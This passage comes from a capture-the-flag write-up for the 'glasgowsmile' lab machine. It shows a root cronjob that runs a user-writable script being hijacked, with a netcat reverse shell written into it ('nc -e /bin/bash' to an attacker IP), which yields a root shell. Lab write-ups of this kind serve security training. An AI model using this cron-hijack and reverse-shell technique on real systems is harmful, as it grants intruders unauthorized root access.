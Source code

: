 ~~~
penguin@glasgowsmile:~/SomeoneWhoHidesBehindAMask$ ls -la
total 332
drwxr--r-- 2 penguin penguin   4096 Jun 16 12:52 .
drwxr-xr-x 5 penguin penguin   4096 Jun 16 11:58 ..
-rwSr----- 1 penguin penguin 315904 Jun 15 11:45 find
-rw-r----- 1 penguin root      1457 Jun 15 11:50 PeopleAreStartingToNotice.txt
-rwxr-xr-x 1 penguin root       612 Jun 16 12:50 .trash_old
-rw-r----- 1 penguin penguin     38 Jun 16 12:52 user3.txt
penguin@glasgowsmile:~/SomeoneWhoHidesBehindAMask$ cat user3.txt 
JKR{284a3753ec11a592ee34098b8cb43d52}
penguin@glasgowsmile:~/SomeoneWhoHidesBehindAMask$ 
~~~

# Flag 4

## Privilege escalation

Running pspy64 on the target will reveal that a cronjob is executing `/home/penguin/SomeoneWhoHidesBehindAMask/.trash_old` by root every minute:

~~~
2020/09/28 13:43:01 CMD: UID=0    PID=1584   | /usr/sbin/CRON -f 
2020/09/28 13:43:01 CMD: UID=0    PID=1585   | /usr/sbin/CRON -f 
2020/09/28 13:43:01 CMD: UID=0    PID=1586   | /bin/sh -c /home/penguin/SomeoneWhoHidesBehindAMask/.trash_old 
2020/09/28 13:44:01 CMD: UID=0    PID=1587   | /usr/sbin/CRON -f 
2020/09/28 13:44:01 CMD: UID=0    PID=1588   | /usr/sbin/CRON -f 
2020/09/28 13:44:01 CMD: UID=0    PID=1589   | /bin/sh -c /home/penguin/SomeoneWhoHidesBehindAMask/.trash_old 
~~~

Let's modify the file to make a reverse shell:

~~~
penguin@glasgowsmile:~/SomeoneWhoHidesBehindAMask$ cat > .trash_old << EOF
> nc -e /bin/bash 172.16.222.128 5555
> EOF
~~~

Start a listener and wait for the connection:

~~~
kali@kali:/data/src$ rlwrap nc -nlvp 5555
listening on [any] 5555 ...
connect to [172.16.222.128] from (UNKNOWN) [172.16.222.148] 49746
python3 -c "import pty;pty.spawn('/bin/bash')"
root@glasgowsmile:~# pwd
pwd
/root
root@glasgowsmile:~# ls -la
ls -la
total 48
drwx------  3 root root 4096 Jun 16 13:23 .
drwxr-xr-x 18 root root 4096 Jun 13 12:44 ..
-rw-------  1 root root    7 Sep 28 11:49 .bash_history
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
-rwxr-x--x  1 root root  867 Jun 16 13:23 .clean.sh
drwxr-xr-x  3 root root 4096 Jun 13 13:12 .local
-rw-------  1 root root 3862 Jun 15 04:07 .mysql_history
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r-----  1 root root 1863 Jun 14 15:07 root.txt
-rw-r--r--  1 root root   66 Jun 13 15:52 .selected_editor
-rw-r--r--  1 root root  165 Jun 13 13:11 .wget-hsts
-rw-r--r--  1 root root   24 Jun 16 13:18 whoami
~~~